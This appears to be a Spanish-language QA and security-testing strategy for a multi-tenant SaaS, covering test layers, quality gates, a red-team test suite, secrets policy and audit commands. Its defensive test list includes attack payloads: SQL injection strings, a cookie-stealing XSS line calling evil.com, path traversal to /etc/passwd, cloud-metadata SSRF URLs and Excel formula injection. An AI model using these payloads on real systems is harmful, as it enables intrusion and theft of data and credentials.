

# Estrategia Maestra de Testing, Control de Calidad (QA) y Ciberseguridad Ofensiva (Versión 001)

> **Documento:** `estrategia_testing_calidad_y_seguridad_001.md`  
> **Versión:** 001 (Especificación Normativa de QA, Testing Multi-Nivel, SAST/DAST/SCA y Red Team Automatizado)  
> **Base Normativa:**  
> - `MASTER-AGENTIC-ENGINEERING-FRAMEWORK.md`  
> - `propuesta_arquitectura_tree_001.md`  
> - `.agent/estrategias/estrategia_migraciones_alembic_001.md`  
> - `.agent/estrategias/estrategia_rbac_y_auditoria_001.md`  
> - Estándares ISO/IEC 27001 (Seguridad de la Información), ISO 9001 (Gestión de Calidad), OWASP Top 10 (Web, API & LLM) y `cloudflare/security-audit-skill`.  
> **Propósito:** Establecer la ley inquebrantable de **Co-Creación 1:1 (Código + Tests en el mismo paso)**, la taxonomía completa en 5 dimensiones, los vectores de ataque automatizados con mentalidad Kali Linux (Red Team) y los comandos deterministas de auditoría para que OppyTec v2.0 alcance calidad de software de misión crítica.  
> **Fecha:** Octubre 2026  

---

## 1. La Ley de Hierro: Co-Creación Obligatoria ("Test-Alongside Policy")

> [!CRITICAL]
> **NINGÚN CÓDIGO EXISTE SIN SUS PRUEBAS:**  
> Está estrictamente prohibido que un agente de IA o un desarrollador humano escriba o modifique una función, entidad de dominio, caso de uso, repositorio, endpoint FastAPI o componente React sin escribir **en el mismo paso e iteración** las pruebas automatizadas que certifican su funcionamiento, resiliencia ante fallos y blindaje frente a ciberataques.

### 1.1 Qué exige la Co-Creación en cada capa
Cada vez que se construye una pieza en `oppytec-backend/src/` o `oppytec-frontend/src/`, se debe entregar su contraparte de pruebas antes de dar el paso por válido:

| Si se construye / modifica... | Se DEBE crear / actualizar en el mismo acto... | Umbral Mínimo No Negociable |
|---|---|---|
| **Entidad o Servicio de Dominio** (`modules/*/domain/`) | Test Unitario Puro + Test Basado en Propiedades (`Hypothesis` para fórmulas, costos, unidades y RBAC) | **$\ge 90\%$ Cobertura de Ramas** (`--cov-branch`) + Invariantes `Hypothesis` (evita tests triviales de relleno), ejecución $< 1\text{ s}$ |
| **Caso de Uso / Servicio de Aplicación** (`modules/*/application/`) | Test Unitario con Mocks de Puertos + Test de Concurrencia (`asyncio.gather`) si muta cupos, saldos o permisos JIT | **$\ge 90\%$ Cobertura**, verificación de efectos en `AuditService` |
| **Repositorio / Adaptador SQL** (`modules/*/infrastructure/`) | Test de Integración contra PostgreSQL/Redis real con aislamiento de esquemas (`public` vs `tenant_*`) y rollback por `SAVEPOINT` | **$\ge 85\%$ Cobertura**, prueba de no-fuga entre Tenants y ordenamiento de locks |
| **Endpoint HTTP / Router FastAPI** (`modules/*/presentation/`) | Test Funcional (2xx, 400, 401, 403, 404, 409, 422) + Test RBAC de 3 niveles + Test Red Team (IDOR, SQLi, XSS) | **100% Endpoints Protegidos**, validado por Schemathesis |
| **Componente / Vista / Hook Frontend** (`features/*/` o `shared/`) | Test de Componente (`Vitest` + Testing Library) validando estados (`Skeleton`, `Empty`, `Error`, `Success`) y `<Can>` | **$\ge 80\%$ Cobertura**, `0` código muerto en `knip` |

### 1.2 Estratificación de Quality Gates por Tiempo de Ejecución (Escalabilidad en Desarrollo y CI/CD)

Para evitar que la suite completa (que incluye fuzzing, escáneres de contenedores y pruebas de carga) bloquee el flujo diario de co-creación tomando 10–20 minutos por cambio, los **Quality Gates** se dividen en **3 niveles de ejecución**:

| Nivel de Gate | Cuándo se Ejecuta | Presupuesto de Tiempo | Qué Ejecuta Exactamente |
|---|---|---|---|
| **Nivel 1: Fast Gate** *(Feedback Instantáneo)* | En cada paso de Co-Creación local y en `pre-commit` | **$< 10\text{ – }15\text{ segundos}$** | • `ruff check`, `mypy --strict`, `eslint`, `tsc --noEmit`<br/>• `gitleaks protect --staged`<br/>• `tests/architecture/` (Clean Arch, Alembic, RBAC, Paridad 1:1 y `test_09` AST)<br/>• **Test Impact Analysis (TIA) vía `Graphify`:** identifica por aristas del grafo todos los tests unitarios conectados al símbolo modificado y los ejecuta con `--hypothesis-profile=dev` (`max_examples=25`) |
| **Nivel 2: Main Gate** *(Verificación de Rama)* | En `pre-push`, apertura de Pull Request y cierre de Sub-tarea | **$< 2\text{ – }3\text{ minutos}$** | • Todo el **Fast Gate** + `tests/smoke/`<br/>• `tests/integration/` (sobre contenedor PostgreSQL/Redis persistente usando rollback por `SAVEPOINT` en $< 10\text{ ms}$ por test)<br/>• `tests/security_redteam/` (`test_01` al `test_10`)<br/>• `knip`, `deptry` y `semgrep` focalizado en archivos modificados |
| **Nivel 3: Deep Gate** *(Certificación Pesada)* | Al cerrar cada Fase de `06-IMPLEMENTATION-PLAN.md`, en Staging y Nightly CI | **Asíncrono ($5\text{ – }15\text{ min}$)** | • `Schemathesis` fuzzing completo multi-rol (`--max-failures 100`)<br/>• `Locust` (prueba de carga/estrés a $500\text{ RPS}$ verificando $P_{95} \le 120\text{ ms}$)<br/>• `Trivy FS` completo, `pip-audit`, `pnpm audit` y Semgrep completo<br/>• Suite `Playwright E2E` + `Hypothesis` con `--hypothesis-profile=ci` (`max_examples=500`) |

---

## 2. Taxonomía Maestra de Pruebas en las 5 Dimensiones

Para que la cobertura de OppyTec v2.0 sea total y sistemática, la arquitectura de pruebas se organiza cubriendo las **5 dimensiones clásicas de la ingeniería de calidad de software**:



### 2.1 Matriz de Correspondencia de las 5 Dimensiones en OppyTec v2.0

| Clasificación | Tipo de Prueba | Ubicación en el Proyecto | Herramienta Principal | Qué Valida Específicamente en OppyTec |
|---|---|---|---|---|
| **1. Por Nivel** | **Unitarias** | `oppytec-backend/tests/unit/`<br/>`oppytec-frontend/src/**/__tests__/` | `pytest`, `hypothesis`, `vitest` | Fórmulas de costos ponderados, conversión de 3 capas de unidades, motor matemático RBAC, cupos de plan, funciones puras y componentes aislados. |
| **1. Por Nivel** | **Integración** | `oppytec-backend/tests/integration/` | `pytest-asyncio`, `testcontainers` / DB Test | Interacción real entre Servicios $\leftrightarrow$ SQLAlchemy Async $\leftrightarrow$ PostgreSQL (`SET LOCAL search_path`) $\leftrightarrow$ Redis (Kill-Switch de sesión y caché). |
| **1. Por Nivel** | **Sistema (E2E)** | `oppytec-backend/tests/e2e/`<br/>`oppytec-frontend/e2e/` | `httpx.AsyncClient`, `Playwright` | Flujos completos de extremo a extremo: SuperUser crea Holding/Tenant $\to$ Propietario configura Bodegas/Roles $\to$ Compra $\to$ Recepción $\to$ Stock $\to$ Venta Receta $\to$ Merma $\to$ Auditoría. |
| **1. Por Nivel** | **Aceptación (UAT)** | `oppytec-backend/tests/uat/` | `pytest-bdd` / Escenarios PRD | Verifica que cada historia de usuario y criterio de aceptación de `specs/01-PRD.md` y `specs/03-USER-FLOWS.md` cumpla la expectativa real del cliente gastronómico/hotelero. |
| **2. Naturaleza** | **Funcionales** | Transversal en `unit/`, `integration/`, `e2e/` | `pytest`, `vitest` | Exactitud en búsquedas, formularios Zod/Pydantic, autenticación JWT/OAuth, permisos de 3 niveles (`mod.sub.fn`) y liberación de cupos por `soft-delete`. |
| **2. Naturaleza** | **No Funcionales** | `oppytec-backend/tests/non_functional/` | `pytest-benchmark`, `locust`, `axe-core` | Latencia $P_{95} \le 120\text{ ms}$ en stock y $\le 800\text{ ms}$ en reportes, soporte de $500\text{ RPS}$, cero fugas de memoria/conexiones y accesibilidad WCAG 2.1 AA en Modo Claro/Oscuro. |
| **3. Específicos** | **Humo (*Smoke*)** | `oppytec-backend/tests/smoke/` | `pytest -m smoke` | Verificación ultrarrápida ($< 3\text{ s}$): FastAPI arranca, `/openapi.json` compila, PostgreSQL + `pgvector` y Redis responden, y el SuperUser Génesis (`oppytec.admin`) puede autenticarse. |
| **3. Específicos** | **Regresión** | Toda la suite + `tests/contracts/replays/` | `pytest`, `schemathesis replay` | Garantiza que ninguna refactorización o nueva migración correlativa rompa fórmulas, contratos API o flujos que ya funcionaban en fases previas. |
| **3. Específicos** | **Carga, Estrés y Concurrencia** | `oppytec-backend/tests/load/`<br/>`tests/security_redteam/test_race_conditions.py` | `locust`, `asyncio.gather` | Cuántos usuarios concurrentes soporta antes de saturar el pool (`pool_size=40, max_overflow=20`) y resistencia a condiciones de carrera simultáneas. |
| **3. Específicos** | **Seguridad** | `oppytec-backend/tests/security_redteam/` | `semgrep`, `trivy`, `pip-audit`, `pytest` | Prevención de OWASP Top 10, ISO 27001 Anexo A, inyecciones, escalamiento de privilegios, fugas multi-tenant y auditoría de dependencias. |
| **4. Conocimiento** | **Caja Blanca** | `oppytec-backend/tests/architecture/` | `ast`, `graphify`, `pytest-archon`, `mypy`, `semgrep`, `knip` | Inspección directa del AST y del grafo de dependencias (`graph.json` filtrado por `.graphifyignore`): prohibición de aristas entre capas, integridad correlativa de Alembic, cobertura de rutas RBAC, paridad 1:1 de tests y detección de nodos huérfanos/código muerto a costo `0` de tokens. |
| **4. Conocimiento** | **Caja Gris** | `oppytec-backend/tests/contracts/` | `schemathesis` | Fuzzing inteligente conociendo el contrato `/openapi.json`, tokens JWT de distintos roles y cabeceras `X-Tenant-Schema`. |
| **4. Conocimiento** | **Caja Negra** | `oppytec-backend/tests/security_redteam/` | Fuzzers HTTP, Payloads Kali/SecLists | Ataques simulados desde el exterior sin asumir confianza interna: manipulación de bytes, cabeceras hostiles, fuerza bruta y payloads malformados. |
| **5. Ejecución** | **Automatizadas** | Ejecutadas vía `Makefile`, Pre-commit y CI | `pytest`, `vitest`, `playwright`, `semgrep`, `trivy` | Se ejecutan mecánicamente en cada paso de desarrollo; si el código de salida es distinto de `0`, el cambio se rechaza. |
| **5. Ejecución** | **Manuales Guiadas** | `specs/03-USER-FLOWS.md` + Checklists UAT | Interacción humana en navegador | Pruebas exploratorias de UX, validación visual del Design System y recorridos paso a paso de aceptación final por fase. |

---

## 3. Suite de Ciberseguridad Ofensiva ("Mentalidad Kali Linux / Red Team")

En una auditoría de pentesting con **Kali Linux**, un atacante utiliza herramientas como *Burp Suite, SQLMap, JWT_Tool, Nuclei, ffuf, SecLists y Metasploit* para buscar brechas lógicas y técnicas. En **OppyTec v2.0**, convertimos esos mismos ataques en una **suite automatizada permanente (`oppytec-backend/tests/security_redteam/`)** combinada con las directrices de **`cloudflare/security-audit-skill`**:

### 3.1 Los 10 Vectores de Ataque y Resiliencia Automatizados (`tests/security_redteam/`)

1. **`test_01_cross_tenant_and_holding_isolation_idor.py` (Ataque BOLA / IDOR / Schema Hopping):**
   - **Escenario Kali:** Un atacante con una cuenta válida en el `Tenant A (Restaurante)` intenta leer o modificar productos, facturas, mermas o usuarios del `Tenant B (Hotel)` o de un `Holding Rival` cambiando el header `X-Tenant-Schema` o iterando IDs/UUIDs en la URL.
   - **Inyección en `search_path`:** Envía cabeceras maliciosas como `X-Tenant-Schema: tenant_a"; DROP TABLE public.holdings; --` o `X-Tenant-Schema: pg_catalog`.
   - **Defensa verificada:** Rechazo inmediato (`400`/`403`) mediante validador estricto de identificador y verificación de pertenencia en `public.client_user_tenant_access`.

2. **`test_02_jwt_cryptographic_and_session_attacks.py` (Vectores de `jwt_tool`):**
   - **Escenarios Kali:**
     - Ataque de algoritmo nulo (`{"alg": "none"}`).
     - Firma con clave secreta falsa o vacía.
     - Adulteración de claims en el payload (`role: "propietario"`, `is_superuser: true`, `holding_id` ajeno) sin re-firmar.
     - **Replay Attack de Refresh Token:** Intentar usar dos veces el mismo `refresh_token` para verificar que el sistema detecte el robo y revoque toda la familia de tokens en Redis.
     - **Ataque Post-Soft-Delete (Kill-Switch Test):** Un trabajador recibe `soft-delete` (`is_deleted = true`) y 50 milisegundos después intenta ejecutar un endpoint con su `access_token` aún no expirado por reloj. Debe recibir `401 Unauthorized` instantáneo.

3. **`test_03_rbac_privilege_escalation_and_delegation_bypass.py` (Escalamiento Horizontal y Vertical):**
   - **Escenarios Kali:**
     - Un `admin (Rank 10)` intenta modificarse a sí mismo o promover a un cómplice a `propietario (Rank 0)` o `superuser (Rank 5)`.
     - Un `admin` que **no** tiene el permiso `management.mermas.approve` intenta otorgarle un permiso temporal (JIT) de `management.mermas.approve` a un `cajero` (*Violación del Techo de Concesión*).
     - Un `Propietario` intenta invocar un endpoint del módulo `accounting` cuando su Tenant tiene `accounting` deshabilitado en su plan (`public.tenant_modules`).
     - Un trabajador intenta usar un Permiso Temporal (JIT) 1 segundo después de su `expires_at` o en su intento `max_uses + 1`.

4. **`test_04_polyglot_injections_sqli_xss_ssti_lfi.py` (Vectores de *SecLists*):**
   - **Escenarios Kali:**
     - **SQL Injection:** `' OR '1'='1' --`, `1; SELECT pg_sleep(5)--`, `UNION SELECT null, username, hashed_password FROM public.global_users--` en todos los parámetros de búsqueda, ordenamiento (`order_by`) y filtros.
     - **XSS & Template Injection (SSTI):** `<script>fetch('https://evil.com?c='+document.cookie)</script>`, `<svg/onload=alert(1)>`, `javascript:alert(document.domain)` en nombres de productos, notas de equipo, motivos de merma y URLs de plantillas de correo (previniendo el hallazgo `var-in-href` detectado por Semgrep en Legacy).
     - **Path Traversal (LFI) & SSRF:** `../../../../etc/passwd`, `..%2f..%2f.env` en rutas de archivos/avatares y URLs internas (`http://169.254.169.254/latest/meta-data/`, `http://localhost:6379`) en webhooks o importadores.

5. **`test_05_malicious_file_uploads_and_formula_injection.py` (Magic Bytes & Excel Exploits):**
   - **Escenarios Kali:**
     - Subir un binario ejecutable ELF (`\x7fELF...`), un script PHP/Python o un HTML malicioso renombrado como `factura.pdf` o `avatar.webp`. El guardián de **Magic Bytes** (`file_magic_guard.py`) debe rechazarlo con `415 Unsupported Media Type` o `422` leyendo la firma binaria real.
     - **CSV / Excel Formula Injection:** Subir un archivo `.xlsx` en el importador de productos cuyas celdas contengan `=HYPERLINK("http://evil.com", "Click")`, `=CMD|' /C calc'!A0` o `+SUM(...)`.
     - **DoS por Tamaño (Zip Bomb / Oversized Payload):** Enviar payloads JSON o archivos por encima del límite permitido.

6. **`test_06_concurrency_race_conditions_and_double_spend.py` (Ataques de Sincronización Paralela y Prevención de Deadlocks a 500 RPS):**
   - **Escenarios Kali (con `asyncio.gather` disparando 25 corrutinas simultáneas):**
     - **Race Condition de Cupos de Plan (`Seat Quota Bypass`):** Un plan tiene límite de 10 trabajadores (`9/10` ocupados). Se disparan 10 peticiones simultáneas de `POST /users` al mismo milisegundo. Solo **1** debe tener éxito (`201 Created`) y las otras **9** deben fallar con `409 Conflict` gracias al `SELECT ... FOR UPDATE`.
     - **Race Condition de Kardex / Stock:** Queda `1.0 kg` de lomo en bodega y entran 10 ventas/consumos simultáneos de `1.0 kg`. El bloqueo pesimista transaccional debe impedir que el stock quede inconsistente o se pierdan movimientos en `registro_stock`.
     - **Prevención Matemática de Deadlocks Multi-Ítem (`Canonical Lock Ordering`):** Simula dos ventas concurrentes de recetas distintas que comparten los mismos ingredientes en orden inverso (ej. Receta A usa `[Cebolla #50, Aceite #12]` y Receta B usa `[Aceite #12, Cebolla #50]`). Verifica que el repositorio ordene siempre los IDs ascendentemente (`ORDER BY producto_id ASC, bodega_id ASC FOR UPDATE`) antes de adquirir el candado y que, ante cualquier `DeadlockDetectedError` (`SQLSTATE 40P01`) o `SerializationFailure` (`40001`), el decorador de reintento con jitter exponencial resuelva la transacción sin errores `500`.
     - **Race Condition de Permiso Temporal de 1 Uso (`max_uses = 1`):** Disparar 10 peticiones simultáneas usando el mismo permiso temporal de un solo uso; exactamente 1 debe ejecutarse y 9 deben ser rechazadas con `403 Forbidden`.

7. **`test_07_information_disclosure_and_headers_hardening.py` (Hardening HTTP & Cero Fuga de Datos):**
   - Verifica que ante errores `404`, `422` o `500` jamás se filtren stack traces de Python, nombres de tablas SQL, versiones de librerías ni variables de entorno.
   - Verifica cabeceras de seguridad obligatorias: `Strict-Transport-Security` (HSTS), `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`, `Content-Security-Policy` (CSP), cookies con `HttpOnly`, `Secure`, `SameSite=Lax`, y rechazo estricto de orígenes CORS no autorizados.

8. **`test_08_ai_prompt_injection_and_rag_isolation.py` (Seguridad de IA — OWASP LLM Top 10):**
   - Verifica que **Oppy Bot** rechace intentos de *Direct/Indirect Prompt Injection* (ej. un documento subido o nota con instrucciones ocultas para extraer datos), que respete estrictamente los permisos RBAC del usuario que chatea antes de invocar cualquier herramienta operativa (`operational_tools`), y que las consultas vectoriales `pgvector` estén matemáticamente confinadas al `tenant_schema` activo.

9. **`test_09_zero_hardcoding_and_secrets_guard.py` (Cero Hardcoding, `SecretStr` y Prohibición de `os.getenv` Disperso):**
   - **Escenarios auditados por inspección AST sobre todo `src/`:**
     - **Prohibición de Secretos, Credenciales, IPs o URLs Hardcodeadas:** Falla automáticamente si detecta contraseñas (incluida la del SuperUser Génesis), tokens, API Keys, URLs de servidores (`http://localhost`, `@db:5432`, dominios quemados), puertos o nombres de esquemas fijos en el código fuente.
     - **Prohibición de `os.getenv()` / `os.environ` fuera de `src/core/config.py`:** Ningún módulo puede leer variables de entorno de forma suelta o con valores por defecto inseguros (`os.getenv("SECRET_KEY", "default_inseguro")`). Toda variable global o sensible debe declararse en `Settings(BaseSettings)` de Pydantic v2.
     - **Uso Obligatorio de `SecretStr`:** Verifica mediante reflexión de tipos que todo campo sensible en `Settings` (`SECRET_KEY`, `DATABASE_URL`, `REDIS_URL`, `SUPERUSER_GENESIS_PASSWORD`, `GEMINI_API_KEY`, `R2_SECRET_ACCESS_KEY`, `GOOGLE_CLIENT_SECRET`, `RESEND_API_KEY`) sea de tipo `pydantic.SecretStr`, impidiendo que su valor aparezca en texto plano en logs o volcados de memoria (`**********`).
     - **Auditoría de `.gitignore` y Archivos Sensibles:** Verifica que `.env`, `*.pem`, `*.key`, `google_credentials.json` jamás existan rastreados en Git.

10. **`test_10_resilience_chaos_and_circuit_breakers.py` (Ingeniería del Caos, Degradación Elegante y Limpieza del Pool Multi-Tenant):**
    - **Mecanismo Determinista de Inyección de Fallos (Sin Carreras en CI):**
      - Para evitar que pausar el contenedor global de Redis (`docker pause`) afecte a otros workers paralelos en el runner de CI, la suite implementa un **Fault-Injector Proxy / Adaptador Controlable (`ChaosRedisTransport` / `Toxiproxy`)** inyectado por fixture en `conftest.py` (y un target dedicado secuencial `--dist=no` en el `Makefile`), capaz de simular de forma 100% determinista: corte de socket (`ConnectionResetError`), latencia artificial (`> 50ms` -> `asyncio.TimeoutError`) y rechazo de comandos (`RedisError`).
    - **Caída o Latencia Extrema de Redis (Prevención de Single Point of Failure):**
      - Simula desconexión o timeout (`> 50ms`) de Redis.
      - En **Validación de Sesión / Kill-Switch (`soft-delete`)**: Verifica que el guard haga **Fallback automático a PostgreSQL** (`SELECT is_deleted FROM ...`) sin tumbar la petición, y que solo si PostgreSQL también falla emita `503 Service Unavailable` controlado con cabecera `Retry-After` (jamás un `500` no controlado).
      - En **Rate Limiting y Caché Operativo**: Verifica degradación elegante (*Fail-Open* a limitador en memoria del worker + alerta crítica en logs) para que los restaurantes jamás queden bloqueados para vender o descontar stock por un reinicio de Redis.
    - **Higiene del Pool de Conexiones ante Fallos Abruptos (`SET LOCAL search_path` & Checkin Reset):**
      - Simula una excepción a mitad de transacción y una cancelación asíncrona (`asyncio.CancelledError`) mientras una sesión operaba en `"tenant_restaurante_a"`.
      - Verifica que al regresar la conexión al pool (`pool_size=40`), el evento de checkin/reset ejecute `RESET search_path;` (o descarte la conexión corrupta) garantizando que la siguiente petición nunca herede el esquema del Tenant anterior.
    - **Circuit Breakers y Backoff Exponencial en Proveedores Externos (`R2`, `Gemini`, `Resend`):**
      - Simula fallos `502`/`504` y timeouts en las APIs externas verificando reintentos con *Exponential Backoff + Jitter* (`tenacity`) y apertura del *Circuit Breaker* sin agotar los workers de Uvicorn.

---

## 3.2 Política Estricta de "Cero Hardcoding" y Gestión de Variables Sensibles (`.env` & Cloud Secret Managers)

> [!IMPORTANT]
> **REGLA ABSOLUTA DE CERO HARDCODING:**  
> Ningún valor sensible, credencial (incluyendo el usuario/contraseña del SuperUser Génesis), clave criptográfica, URL de conexión, host, puerto, origen CORS, nombre de bucket o parámetro global de entorno puede escribirse directamente (*hard-coded*) en archivos `.py`, `.ts`, `.tsx`, `.sql`, `Dockerfile` ni `alembic/env.py`.

1. **Punto Único de Verdad para Variables de Entorno:**
   - **En Desarrollo Local:** Se inyectan exclusivamente desde el archivo `.env` (excluido en `.gitignore`), documentado mediante una plantilla segura sin secretos reales en `.env.example`.
   - **En Producción / Nube (Railway, AWS, GCP, Cloudflare, Kubernetes):** Se inyectan mediante variables de entorno cifradas de la plataforma o un *Secret Manager* (AWS Secrets Manager / GCP Secret Manager / Doppler / Cloudflare Secrets) sin tocar una sola línea de código.
2. **Centralización y Enmascaramiento Automático (`SecretStr` en Backend y `Zod` en Frontend):**
   - **Backend (`oppytec-backend/src/core/config.py`):**
     - Usa `pydantic-settings` con validación estricta al arrancar (*Fail-Fast*: si falta una variable obligatoria o `SECRET_KEY` tiene menos de 32 bytes de entropía, la aplicación se niega a iniciar).
     - Todos los campos sensibles usan `SecretStr` para que `print(settings)` o cualquier log estructurado imprima `SecretStr('**********')`.
     - Incluso el **SuperUser Génesis** (`src/core/bootstrap.py`) lee sus credenciales exclusivamente de `settings.SUPERUSER_GENESIS_EMAIL`, `settings.SUPERUSER_GENESIS_USERNAME` y `settings.SUPERUSER_GENESIS_PASSWORD.get_secret_value()`.
   - **Frontend (`oppytec-frontend/src/shared/config/env.ts`):**
     - Valida `import.meta.env.VITE_*` con un esquema **Zod** al iniciar la SPA.
     - **Guardrail de Seguridad Cliente:** El Frontend jamás recibe ni declara variables privadas del backend; solo variables públicas de interfaz (`VITE_API_BASE_URL`, `VITE_GOOGLE_CLIENT_ID`, `VITE_SENTRY_DSN`).
3. **Triple Barrera de Escaneo Anti-Secretos:**
   - **Barrera 1 (Pre-commit):** `gitleaks protect --staged -v` bloquea el commit local si detecta cualquier clave o credencial.
   - **Barrera 2 (SAST/SCA):** `uvx semgrep scan --config p/secrets` y `trivy fs --scanners secret .`.
   - **Barrera 3 (Quality Gate Pytest):** `test_09_zero_hardcoding_and_secrets_guard.py`.

---

## 4. Pruebas Basadas en Propiedades (`Hypothesis`) para Exactitud Matemática

En un sistema gastronómico y financiero como OppyTec, un error de redondeo en la conversión de unidades o en el costo ponderado de una receta multiplica pérdidas reales para el cliente. En `oppytec-backend/tests/unit/domain/test_math_properties.py` se exige el uso de **`Hypothesis`**:

1. **Invariante de 3 Capas de Unidades (Compra $\to$ Almacén $\to$ Porción de Receta):**
   - Generación automática de miles de factores de conversión (`Decimal`), mermas (`0.0001` a `0.9999`) y precios unitarios para demostrar que nunca ocurre `ZeroDivisionError`, `Overflow` ni pérdida de precisión por coma flotante (`float` prohibido en dinero/cantidades; uso exclusivo de `Decimal`).
2. **Invariante Contable del Kardex (`registro_stock`):**
   - Para cualquier secuencia aleatoria de $N$ movimientos (`entrada`, `salida`, `consumo`, `merma`, `ajuste`, `transferencia`), se cumple siempre que:
     $$\text{stock\_posterior}_i = \text{stock\_previo}_i + \Delta_i \quad \land \quad \text{stock\_previo}_{i+1} = \text{stock\_posterior}_i$$

---

## 5. Manual Operativo de Comandos de Auditoría, Seguridad y Fuzzing

Todos los comandos de auditoría técnica que forman parte del estándar de OppyTec quedan integrados en el flujo de validación continua y en el `Makefile` del proyecto:

### 5.1 Auditoría SAST de Backend con Semgrep
```bash
# 1. Escaneo automático general con salida a reporte de texto
uvx semgrep scan --config auto --output reporte_auditoria.txt

# 2. Alternativa contenerizada con Docker (aislada del entorno host)
docker run --rm -v "$PWD:/src" semgrep/semgrep semgrep scan --config auto --output /src/reporte_auditoria.txt

# 3. Escaneo excluyendo falsos positivos de sa.text() cuando ya están validados por identifier guard
uvx semgrep scan --config auto --exclude-rule "python.sqlalchemy.security.audit.avoid-sqlalchemy-text" --output reporte_auditoria.txt

# 4. Reporte estructurado en JSON para procesamiento automatizado por scripts / Quality Gates
uvx semgrep scan --config auto --json --output reporte_auditoria.json

# 5. Auditoría profunda con ruleset específico de seguridad (OWASP Top 10 / Security Audit)
uvx semgrep scan --config p/security-audit --config p/owasp-top-10 --config p/secrets --output reporte_auditoria.txt
```

### 5.2 Auditoría de Dependencias y Sistema de Archivos en Backend (`pip-audit` + `Trivy`)
```bash
# 1. Exportar lockfile determinista a requirements.txt para escáneres SCA
uv pip compile pyproject.toml -o requirements.txt

# 2. Auditar vulnerabilidades (CVEs) en paquetes Python instalados
uvx pip-audit

# 3. Escaneo integral del sistema de archivos, secretos y configuraciones con Trivy local
trivy fs .

# 4. Escaneo con Trivy vía contenedor oficial de AquaSec (con y sin exclusiones)
docker run --rm -v "$PWD:/src" aquasec/trivy fs /src
docker run --rm -v "$PWD:/src" aquasec/trivy fs --skip-files "/src/google_credentials.json" --skip-dirs "/src/Notas" /src
```

### 5.3 Fuzzing de Contratos API en Vivo con `Schemathesis` (Caja Gris Multi-Tenant — Cero Exposición de Credenciales)
Prueba exhaustivamente todos los endpoints documentados en `/openapi.json` consumiendo las credenciales desde las variables de entorno (`.env`) y pasándolas a `curl` vía **`stdin` (`--data-binary @-`)** para que la contraseña jamás quede expuesta en el repositorio, ni en el historial de la shell (`fish_history` / `bash_history`), ni en la tabla de procesos del sistema operativo (`ps aux`):

```fish
# 1. En shell Fish: Cargar variables desde .env y obtener el token enviando credenciales por stdin (@-)
set TOKEN (printf "username=%s&password=%s" "$SUPERUSER_GENESIS_EMAIL" "$SUPERUSER_GENESIS_PASSWORD" | \
           curl -s -X POST "$API_BASE_URL/admin/login" \
             -H "Content-Type: application/x-www-form-urlencoded" \
             -H "X-Tenant-Schema: public" \
             -H "x-admin-login: true" \
             --data-binary @- | grep -o '"accessToken":"[^"]*' | cut -d'"' -f4)

# (Equivalente POSIX Bash/Zsh para scripts de CI):
# TOKEN=$(printf "username=%s&password=%s" "$SUPERUSER_GENESIS_EMAIL" "$SUPERUSER_GENESIS_PASSWORD" | \
#   curl -s -X POST "${API_BASE_URL:-http://localhost:8000}/admin/login" \
#   -H "Content-Type: application/x-www-form-urlencoded" \
#   -H "X-Tenant-Schema: public" \
#   -H "x-admin-login: true" \
#   --data-binary @- | grep -o '"accessToken":"[^"]*' | cut -d'"' -f4)

# 2. Verificar únicamente que el token no esté vacío (sin imprimir secretos en logs de CI)
test -n "$TOKEN" && echo "✅ Token JWT obtenido correctamente" || echo "❌ Error al obtener token"

# 3. Ejecutar Schemathesis contra un Tenant de prueba para validar la lógica de negocio profunda
uvx schemathesis run "$API_BASE_URL/openapi.json" \
  --checks not_a_server_error \
  -H "Authorization: Bearer $TOKEN" \
  -H "X-Tenant-Schema: $TEST_TENANT_SCHEMA" \
  --workers 4 \
  --max-failures 100

# 4. Reproducir un caso de fallo específico detectado por Schemathesis (Regresión)
uvx schemathesis replay <CASE_ID>
```

### 5.4 Auditoría SAST, SCA, Build y Código Muerto en Frontend (`Semgrep`, `pnpm`, `Trivy`, `Knip`)
```bash
# 1. Escaneo Semgrep general para Frontend deshabilitando io_uring para estabilidad
SEMGREP_ENABLE_IO_URING=0 uvx semgrep scan -j 1 --config auto --output reporte_frontend.txt

# 2. Escaneo enfocado en React, OWASP Top 10 y detección de secretos expuestos en cliente
SEMGREP_ENABLE_IO_URING=0 uvx semgrep scan --config p/react --config p/owasp-top-10 --config p/secrets

# 3. Escaneo completo de seguridad Frontend (React + TypeScript + Security Audit)
SEMGREP_ENABLE_IO_URING=0 uvx semgrep scan --config p/react --config p/typescript --config p/security-audit

# 4. Verificación de compilación estricta de producción (TypeScript + Vite Bundler)
pnpm run build

# 5. Auditoría de vulnerabilidades en árbol de dependencias npm/pnpm
pnpm audit

# 6. Escaneo de vulnerabilidades y configuración con Trivy en Frontend
docker run --rm -v "$PWD:/src" aquasec/trivy fs /src

# 7. Detección de archivos, exportaciones, tipos y dependencias muertas (Zero Dead Code)
pnpm dlx knip
```

---

## 6. Integración con `cloudflare/security-audit-skill` en `.agent/skills/security-audit/`

La habilidad agéntica `.agent/skills/security-audit/` incorpora la metodología de auditoría estructurada de **`cloudflare/security-audit-skill`** adaptada al stack de OppyTec:
1. **Modelado de Amenazas Pre-Código (*STRIDE*):** Antes de aprobar un módulo nuevo, el agente evalúa *Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service y Elevation of Privilege*.
2. **Revisión Línea por Línea de Fronteras de Confianza (*Trust Boundaries*):**
   - Frontera 1: Cliente HTTP $\to$ FastAPI (Validación Pydantic v2 estricta, `extra="forbid"`, límites de longitud y regex, Magic Bytes en uploads).
   - Frontera 2: Resolución de Contexto Multi-Tenant (`X-Tenant-Schema` / `X-Tenant-ID` validado contra membresía en `public` y sanitizado antes de `SET LOCAL search_path`).
   - Frontera 3: Motor RBAC de 3 niveles ($\mathbf{M}_{\text{Plan}} \cap ((\mathbf{P}_{\text{Rol}} \cup \mathbf{P}_{\text{Temp}}) \setminus \mathbf{P}_{\text{Deny}})$) y registro obligatorio en el libro de auditoría inmutable.
   - Frontera 4: Renderizado en React 19 (Prohibición de `dangerouslySetInnerHTML` sin sanitización DOMPurify y prohibición de `href` dinámicos sin validación de protocolo `https://` o ruta relativa `/`).

---

## 7. Estructura Completa del Directorio de Pruebas (`oppytec-backend/tests/` y `oppytec-frontend/`)

```plaintext
oppytec-backend/tests/
